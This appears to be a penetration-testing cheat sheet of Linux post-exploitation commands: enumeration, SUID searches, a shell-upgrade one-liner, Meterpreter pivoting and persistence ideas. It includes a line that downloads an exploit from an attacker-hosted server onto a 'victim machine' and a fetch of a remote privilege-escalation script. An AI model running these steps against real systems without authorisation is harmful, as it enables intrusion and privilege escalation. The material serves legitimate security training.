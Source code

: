 # Linux Post Exploitation


## Enumeration

    uname -a
       
    ps -aux 
    
    id
    
      Find out if the user is part of groups with interesting files
      
      find / -type f -group <group> 2>/dev/null
   
    
  - [LinEnum](https://github.com/rebootuser/LinEnum)  
  
         <hostshare>/Tools/Exploit/Discovery
          
          
  - [Local Linux Enumeration](https://www.rebootuser.com/?p=1623)
  
  
  See what sudo commands you can run
  
       sudo -l

    
 
## Downloading files

    python -m SimpleHTTPServer  #Host the web server
      wget <IP>:8000/exploit     # Download to victim machine

    python -m pyftpdlib 21      #Host ftp server
      ftp <IP>
      
## Exploits

    searchsploit <linux kernel version>
   
    searchsploit <linux version>

## Upgrading basic shell to terminal 

    python -c 'import pty;pty.spawn("/bin/bash")';
    
    
## Privilege Escalation

[Privilege Escalation Cheatsheet ](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

Check /etc/passwd for user/ group ids

    0 is typically root ( this can be <= 500) 
    
    1000+ is where new user accounts start
    
  - [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
   
        curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
        
        https://book.hacktricks.xyz/linux-unix/privilege-escalation

 **Check for SUID (set owner userId upon execution)**
 
  [SUID](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it). When looking at permissions the "x" for the owner will be an "s". [Past shells](https://github.com/Kahvi-0/Tools-and-Concepts/tree/master/Toolbox/Shells/SUID)
   
    find directory -user root -perm -4000 -exec ls -ldb {} \; 2>&1 | grep -v "Permission denied"


   
 
 ## Maintain persistence

  - Add user
  

  - Metasploit


  - Set a scheduled task
  
  
## Pivoting

 If pwnd target has a connection to a network that we do not have a connection to, we can set up a route on the machine to forward our traffic 
 
   - Meterpreter 
       
       Note that the routes created via meterpreter only aspply to that isntance of metasploit.
        If modules are crashing the shell when trying to scan via metasploit module, try running the scan from the compromised machine itself, then launcing targeted attacks from metasploit. 
   
         run autoroute -s <target network seen via enumeration>/CIDR
         
         run autoroute -p   #to confirm
         
       you can now test by pinging a device on the remote network
       
# Find more

  Metasploit
  
    post/linux/


